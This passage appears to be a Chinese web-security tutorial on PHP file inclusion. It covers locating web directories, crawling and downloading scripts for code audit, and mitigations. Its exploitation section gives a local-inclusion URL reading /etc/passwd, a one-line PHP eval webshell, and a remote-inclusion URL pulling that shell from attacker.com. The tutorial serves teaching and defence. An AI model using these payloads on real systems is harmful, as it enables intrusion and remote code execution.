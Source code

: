 **2. 找WEB目录**

- 在web服务器配置中查找
- 猜解常见路径，如：/var/www， /home/www, /home/htdocs/等
- 在脚本文件中，如 `PHPinfo` 中的 `BASEPATH` 等。

**3. 获取地址列表**
- 利用爬虫程序将网站的目录和文件全部爬取下来，整理出URL地址列表

**4. 批量下载脚本**
- 通过自动化脚本程序将URL地址列表中的脚本文件全部下载下来。

**5. 分析已下载的文件**
- 进行代码审计，分析源码中可能存在的各类漏洞，包含 SQL注入、文件包含、命令执行、代码执行、上传漏洞等。


#### 利用教学

1. 本地文件包含，读取敏感文件
访问URL：`http://www.xxx.con/index.php?file=/etc/passwd`
如果目标主机文件存在该文件，并且有相应的权限，则可以读取文件的内容。

2. 远程文件包含shell
如果目标主机 `allow_url_fopen` 是激活,就可以尝试远程包含一句话木马，比如你在 Vultr 上搭建一个零时的虚拟机，然后搭建一个网站服务，在目录中写入 TXT 文件，如:
`<?php eval($_POST[1])?>`

然后访问那个存在远程包含的文件构造URL：
`http://example.com/index.php?file=http://www.attacker.com/shell.txt`

就可以远程获取shell了。

#### 如何防护漏洞

1. 无需情况下设置 `allow_url_include和allow_url_fopen` 为 Off
2. 对可以包含的文件进行限制，可以使用白名单的方式，或者设置可以包含的路径目录，如 open_basedir
3. 建议假定所有输入都是可疑的，尝试对所有输入提交可能存在包含的文件地址，包括服务器本地及远程文件，进行严格的审查，参数中不允许出现 `../`之类的目录跳转符。
4. 严格检测 include 类的文件包含函数中的参数是否外界可控。








